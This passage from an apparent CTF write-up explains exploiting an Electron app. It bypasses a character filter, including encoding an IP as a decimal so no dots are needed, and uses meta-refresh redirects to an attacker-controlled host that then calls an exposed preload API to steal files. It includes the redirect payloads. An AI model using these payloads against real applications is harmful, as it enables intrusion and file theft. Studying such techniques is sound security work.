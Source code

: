 
This makes it possible to reconstruct dangerous keywords progressively by weaving in banned characters after their corresponding checks have passed.

The challenge comes when characters like ( are banned, since invoking functions (e.g. alert()) typically requires parentheses. So how can we execute code if ( is removed?
Well, here’s the shortcut: we don’t need to invoke anything directly. If our malicious payload gets loaded into the page, we can simply redirect the page to our attacker-controlled domain.
Why? Because our other origin (the attacker domain) still has access to window.api thanks to author not whitelisting the origin in preload.

The preload script exposed contextBridge API remains in the global window object even in the redirected page.
So instead of fighting with escaping and invoking code directly in a restricted environment, we just:
- Input a payload that causes the page to redirect to our domain.
- Wait for the preload script to expose window.api.
- Use the exposed API from the malicious page to steal files, invoke sensitive functions, etc.

```html
<meta http-equiv="refresh" content="5;url=https://itsbengsky.id">
```

But look at dot symbol also banned which mean if we specify itsbengsky.id will be itsbengskyid
![alt text](/assets/img/img2.png)


Since the dot (.) symbol is a single character and cannot be bypassed in this context, how can we still achieve redirection?

The trick lies in how IPv4 addresses work. An IP like 16.78.71.126 is typically written in dotted decimal format (A.B.C.D), where each segment represents 8 bits. However, it’s actually just a single 32-bit integer under the hood.

We can convert it using the following formula:

```bash
A.B.C.D = (A × 256³) + (B × 256²) + (C × 256¹) + D
        = (16 × 256³) + (78 × 256²) + (71 × 256¹) + 126
        = (16 × 16777216) + (78 × 65536) + (71 × 256) + 126
        = 268435456 + 5111808 + 18176 + 126
        = 273565566
```
So instead of using a dotted IP, we can access the same host using its decimal form:
http://273565566/

Just host our exploit there, and here’s the final redirection payload:

```html
<meta http-equiv="refresh" content="0; url=http://273565566/">
```